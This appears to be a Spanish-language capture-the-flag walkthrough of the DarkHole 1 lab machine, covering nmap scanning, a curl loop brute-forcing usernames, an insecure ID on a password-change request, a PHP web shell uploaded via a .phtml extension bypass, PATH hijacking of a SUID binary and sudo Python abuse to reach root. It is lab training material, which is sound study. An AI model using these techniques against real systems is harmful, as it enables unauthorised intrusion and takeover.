







DarkHole: 1
Enumeración
Iniciamos con la máquina comprobando la conectividad realizando un ping a la IP 192.168.6.120.
❯ ping -c 1 192.168.6.120
PING 192.168.6.120 (192.168.6.120) 56(84) bytes of data.
64 bytes from 192.168.6.120: icmp_seq=1 ttl=64 time=0.532 ms
--- 192.168.6.120 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.532/0.532/0.532/0.000 msEn el output del comando ejecutado en el parámetro ttl se ve que el valor es 64, gracias a este parámetro se puede saber el sistema operativo que se está utilizando, en este caso un Linux.
| TTL | OS |
|---|---|
| 64 | GNU/Linux |
| 128 | Windows |
Vamos a utilizar la herramienta Nmap para escanear los puertos que estén abiertos y servicios que están asociados a estos.
❯ nmap -p- --open -sCV -n --min-rate 5000 -Pn 192.168.6.120 -oN Scan| Parámetros | Descripción |
|---|---|
| -p- | Indica que analice todos los puertos del 1 al 65535 |
| --open | Únicamente se escanearan los puertos que estén abiertos |
| -sC | Lanza scripts que tiene Nmap por defecto para detectar el tipo de servicio que este corriendo en un puerto |
| -sV | Lanza scripts que tiene Nmap para saber que versión están utilizando los servicios |
| -n | Se evita realizar resolución DNS |
| --min-rate | Indica la cantidad de paquetes que se envían por segundo, en este caso 5000 |
| -Pn | Deshabilita la búsqueda del host, solamente manda los paquetes a los puertos. |
| -oN | Exporta el output del comando ejecutado a un archivo en formato nmap |
# Nmap 7.93 scan initiated Tue Feb 27 13:28:39 2024 as: nmap -p- --open -sCV -n --min-rate 5000 -Pn -oN Scan 192.168.6.120
Nmap scan report for 192.168.6.120
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e450d9505d913050e9b57dcab051db74 (RSA)
| 256 730c76866063060021c236203b99c1f7 (ECDSA)
|_ 256 54534c3f4f3a26f602aa9a24ea1b928c (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:2E:49:72 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 27 13:28:49 2024 -- 1 IP address (1 host up) scanned in 9.59 secondsLos puertos que se han descubierto son:
| Puertos | Servicio | Versión |
|---|---|---|
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache httpd 2.4.41 |
Busqueda de Vulnerabilidades
Viendo que esta el puerto 80 abierto accedemos a la pagina y nos encontramos con un botón que conduce a un panel de login:
Dentro del panel nos pide un usuario.
Antes de realizar cualquier bypass nos tratamos de crear un usuario.
Nos autenticamos ahora con el usuario creado.
Al acceder vemos que hay una opción para poder cambiar la contraseña.
Interceptamos la petición con BurpSuite.
Al recibir la petición vemos un ID.

Quiero pensar que el ID hace alusión al usuario, por lo que el ID 1 posiblemente sea el de algún usuario administrador.
Si cambiamos el id y enviamos la petición supuestamente le habremos cambiado la contraseña a ese usuario.
Vamos a realizar un ataque de fuerza bruta al panel de login para saber que usuario es, mediante un diccionario que contiene nombres de usuario.
❯ for user in $(cat /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt); do curl -s -X POST "http://192.168.6.120/login.php" --data "username=$user&password=test" | grep "username or password is incorrect" 1>/dev/null || echo "El usuario es: $user"; done
El usuario es: adminExplotación
Sabiendo que el usuario es admin accedemos a la pagina como ese usuario con la diferencia de que ahora podemos subir archivos.

Tratamos de subir un archivo PHP con el cual podamos controlar los comandos que vayamos ejecutando mediante el parámetro cmd.
<?php
system($_GET['cmd']);
?>Subimos el archivo pero solo nos permite extensiones jpg, png y gif.


Interceptamos la petición con BurpSuite.

Si cambiamos la extensión por otra de las que tiene php si que funciona.


Vemos que muestra una ruta donde reside el archivo que subimos /upload/.

Al acceder al archivo no interpreta el codigo PHP.

Probando diferentes extensiones vemos que la extensión phtml si que funciona.

Nos enviamos una Reverse Shell.

Post-explotación
Navegando por el sistema vemos que el directorio personal de trabajo del usuario john es accesible.

Dentro del directorio vemos que el archivo toto tiene permisos SUID permitiendo poder ejecutar el archivo como el propietario.

Al ejecutarlo vemos que ejecuta el comando id como el usuario john.

Tratamos de realizar un Path Hijacking para que el binario ejecute el archivo ID que nosotros vayamos a crear.
Creamos un archivo que contendrá el comando que queremos que ejecute el usuario john, en este caso que ejecute una bash.

Añadimos la ruta en la que se encuentra el archivo que hemos creado al PATH para que ejecute primero ese archivo y no el binario id.

Al ejecutar el binario SUID ya somos el usuario john.

Dentro del directorio de trabajo de john tambien se encuentra un archivo el cual contiene la contraseña de dicho usuario y la primera flag.
john@darkhole:/home/john$ ls -l
ls -l
total 28
-rwxrwx--- 1 john john 0 Feb 28 08:33 file.py
-rwxrwx--- 1 john john 8 Jul 17 2021 password
-rwsr-xr-x 1 root root 16784 Jul 17 2021 toto
-rw-rw---- 1 john john 24 Jul 17 2021 user.txt
john@darkhole:/home/john$ cat password
cat password
root123
john@darkhole:/home/john$ cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}
john@darkhole:/home/john$ Tratando de ver los permisos que tiene ese usuario vemos que podemos ejecutar el archivo file.py como el usuario root, siendo un archivo el cual somos el propietario.

Añadimos al archivo python una linea de código la cual ejecute una bash.

Ejecutamos el archivo y ya como podemos observar ya recibimos la shell como el usuario root, obteniendo la ultima flag.
john@darkhole:~$ sudo /usr/bin/python3 /home/john/file.py
root@darkhole:/home/john# cd
root@darkhole:~# cat root.txt
DarkHole{You_Are_Legend}
root@darkhole:~# Aqui se explica con detalle el AutoPWN de la máquina DarkHole1.
© - Mr. Pr1ngl3s